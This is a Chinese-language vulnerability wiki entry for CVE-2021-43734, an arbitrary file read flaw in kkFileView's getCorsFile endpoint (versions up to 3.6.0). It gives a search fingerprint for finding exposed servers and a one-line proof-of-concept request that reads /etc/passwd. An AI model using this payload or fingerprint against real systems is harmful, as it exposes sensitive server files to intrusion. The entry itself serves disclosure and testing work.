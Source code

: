 # kkFileView getCorsFile 任意文件读取漏洞 CVE-2021-43734

## 漏洞描述

kkFileView getCorsFile 3.6.0 版本以下存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器中的任意文件，获取服务器敏感信息

## 漏洞影响

<a-checkbox checked>kkFileView getCorsFile <= 3.6.0</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="kkFileView" </a-checkbox></br>

## 漏洞复现

主页面

![img](/assets/PeiQi-Wiki/img/1652453158898-01e2a7f9-f2eb-44ba-8715-06fed288748e.png)



验证POC

```java
/getCorsFile?urlPath=file:///etc/passwd 
```

![img](/assets/PeiQi-Wiki/img/1652453877704-2f24206f-efe1-459d-b0ff-5a2604605cc9.png)